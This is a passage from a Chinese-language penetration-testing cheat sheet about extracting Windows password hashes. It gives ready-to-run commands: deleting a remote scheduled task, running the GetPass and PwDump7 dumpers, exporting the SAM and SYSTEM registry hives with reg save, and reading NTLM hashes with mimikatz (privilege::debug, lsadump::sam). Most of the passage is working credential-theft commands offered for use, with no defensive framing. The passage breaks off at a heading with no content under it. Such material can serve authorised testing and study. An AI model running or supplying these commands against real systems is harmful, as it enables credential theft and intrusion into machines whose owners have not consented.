 |     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>schtask /delete /s IP /tn "test" /f<br>``` |

## [](#windows-%E7%B3%BB%E7%BB%9F%E6%95%A3%E5%88%97%E5%80%BC%E8%8E%B7%E5%8F%96)Windows 系统散列值获取

### [](#%E5%8D%95%E6%9C%BA%E5%AF%86%E7%A0%81%E6%8A%93%E5%8F%96)单机密码抓取

#### [](#getpass)GetPass

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>GetPassword_x64.exe<br>``` |

#### [](#pwdump7)PwDump7

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```cmd<br>PwDump7.exe<br>``` |

#### [](#%E9%80%9A%E8%BF%87-sam-%E5%92%8C-system-%E6%96%87%E4%BB%B6%E6%8A%93%E5%8F%96%E5%AF%86%E7%A0%81)通过 SAM 和 SYSTEM 文件抓取密码

##### [](#%E5%AF%BC%E5%87%BA-sam-%E5%92%8C-system-%E6%96%87%E4%BB%B6)导出 SAM 和 System 文件

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```cmd<br>reg save hklm\sam sam.hive<br>reg save hklm\system system.hive<br>``` |

##### [](#%E9%80%9A%E8%BF%87%E8%AF%BB%E5%8F%96-sam-%E5%92%8C-system-%E6%96%87%E4%BB%B6%E8%8E%B7%E5%BE%97-ntlm-hash)通过读取 SAM 和 System 文件获得 NTLM Hash

-   mimikatz

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>``` | ```fallback<br>lsadump::sam /sam:sam.hive system:system.hive<br>``` |

-   cain
-   目标机器使用 mimikatz 直接读取本地 SAM 文件

|     |     |     |
| --- | --- | --- |
| ```bash<br>1<br>2<br>``` | ```fallback<br>privilege::debug<br>lsadump::sam<br>``` |

##### [](#%E4%BD%BF%E7%94%A8-mimikatz-%E5%9C%A8%E7%BA%BF%E8%AF%BB%E5%8F%96-sam-%E6%96%87%E4%BB%B6)使用 mimikatz 在线读取 SAM 文件
